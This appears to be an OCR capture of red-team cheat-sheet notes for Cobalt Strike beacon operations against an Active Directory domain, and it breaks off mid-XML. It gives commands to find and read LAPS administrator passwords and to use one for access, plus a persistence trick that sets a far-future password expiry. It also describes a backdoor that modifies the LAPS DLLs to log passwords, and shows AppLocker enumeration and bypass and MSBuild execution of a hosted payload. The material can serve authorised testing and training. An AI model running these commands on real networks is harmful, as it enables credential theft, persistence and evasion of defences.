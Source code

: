 ```powershell
beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

# Use Laps Toolkit to identify Groups & Users who can read LAPS password
beacon> powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
beacon> powerpick Find-LAPSDelegatedGroups
beacon> powerpick Find-AdmPwdExtendedRights

# View the LAPS password for given machine (From User Session having required rights)
beacon> powerpick Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd
beacon> powerpick Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

# Use the laps password to gain access
beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
beacon> ls \\wkstn-1\c$

# Set Far Future date as expiry (Only machine can set its Password)
beacon> powerpick Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose

# LAPS Backdoor
- Modify the AdmPwd.PS.dll and AdmPwd.Utils.dll file located at C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\ location to log the LAPS password everytime it is viewed by the admin user
```
### AppLocker
```powershell
# Enumerate the Applocker policy via GPO
beacon> powershell Get-DomainGPO -Domain dev-studio.com | ? { $_.DisplayName -like "*AppLocker*" } | select displayname, gpcfilesyspath

beacon> download \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol

PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

# Enumerate the Applocker policy via Local Windows registry on machine
PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"

PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"

# Using powershell on local system
PS C:\Users\Administrator> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

# Navigating Laterally via PSEXEC is fine, as service binary is uploaded in C:\Winodws path which is by default whitelisted

# Find the writable path within C:\winodws to bypass Applocker
beacon> powershell Get-Acl C:\Windows\Tasks | fl
```
## LOLBAS
```powershell
# Use MSBuild to execute C# code from a .csproj or .xml file
# Host http_x64.xprocess.bin via Site Management > Host File
# Start execution using C:\Windows\Microsoft.Net\Framework64\v4.0.30319\MSBuild.exe test.csproj

<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
```